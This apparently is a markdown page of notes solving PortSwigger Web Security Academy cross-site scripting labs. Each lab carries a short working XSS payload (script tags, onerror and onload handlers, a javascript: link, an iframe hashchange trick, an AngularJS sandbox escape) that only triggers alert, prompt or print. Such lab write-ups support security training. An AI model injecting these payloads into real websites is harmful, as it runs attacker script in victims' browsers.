 # Labs
### Reflected XSS into HTML context with nothing encoded
```<script>alert(1)</script>``` in search box.

<br>

### Stored XSS into HTML context with nothing encoded
```<script>alert(1)</script>``` in comment section.

<br>

### DOM XSS in document.write sink using source location.search
<img width="500" src="https://user-images.githubusercontent.com/68285613/146972401-767cfebe-24de-403c-b447-e028a8b35f77.png">

``` "><svg onlond=alert(1)>``` in search box.

<br>

### DOM XSS in document.write sink using source location.search inside a select element

<img width="500" src="https://user-images.githubusercontent.com/68285613/146982039-d5264792-8f54-4e75-bd1e-4d18056a0ad6.png">

Once determined it's able to use url to write into script, 

use ```storeId="></select><img src=1 onerror=alert(1)>```.

<img width="500" src="https://user-images.githubusercontent.com/68285613/146986519-5c632667-cc06-49fb-90ac-ee63a4db6596.png">

<br>

### DOM XSS in innerHTML sink using source location.search
```</div><svg onload=alert(1)>``` in search box.

<br>

### DOM XSS in jQuery anchor href attribute sink using location.search source
Using herf alert.
```returnPath=javascript:alert('1')``` in link.

<br>

### DOM XSS in jQuery selector sink using a hashchange event
Readings:

[```What is "><img src=x onerror=prompt(1);>?```](https://www.quora.com/What-is-img-src-x-onerror-prompt-1)

```<iframe src="https://ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>```

<br>

### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
```{{$on.constructor('alert(1)')()}}``` in search box and press the button "Search".

<br>

## Reflected DOM XSS







